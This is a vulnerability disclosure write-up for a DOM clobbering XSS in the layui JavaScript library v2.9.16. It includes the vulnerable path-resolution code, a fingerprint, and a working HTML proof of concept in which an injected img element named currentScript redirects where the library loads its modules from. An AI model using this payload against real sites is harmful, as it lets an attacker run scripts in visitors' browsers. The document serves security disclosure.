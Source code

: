 ## layui

### Meta

+ Library: layui
+ Stars: 29.5K
+ Version: v2.9.16
+ Fingerprint: `window.LAYUI_GLOBAL  !== undefined`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Patched
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/layui/layui

### Vulnerable Code Snippet

```javascript
var doc = win.document;
  var config = {
    modules: {}, // 模块物理路径
    status: {}, // 模块加载状态
    timeout: 10, // 符合规范的模块请求最长等待秒数
    event: {} // 模块自定义事件
  };

  var Layui = function(){
    this.v = '2.9.16'; // Layui 版本号
  };

  // 识别预先可能定义的指定全局对象
  var GLOBAL = win.LAYUI_GLOBAL || {};

  // 获取 layui 所在目录
  var getPath = function(){
    var jsPath = doc.currentScript ? doc.currentScript.src : function(){
      var js = doc.scripts;
      var last = js.length - 1;
      var src;
      for(var i = last; i > 0; i--){
        if(js[i].readyState === 'interactive'){
          src = js[i].src;
          break;
        }
      }
      return src || js[last].src;
    }();

    return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
  }();
```

## PoC

```html
<!--Library-->
<!-- <link href="./layui.css" rel="stylesheet" /> -->
<script src="./layui.js"></script>
<script>
  // Usage
  layui.use(function () {
    var layer = layui.layer;
    // Welcome
    layer.msg("Hello World", { icon: 6 });
  });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```
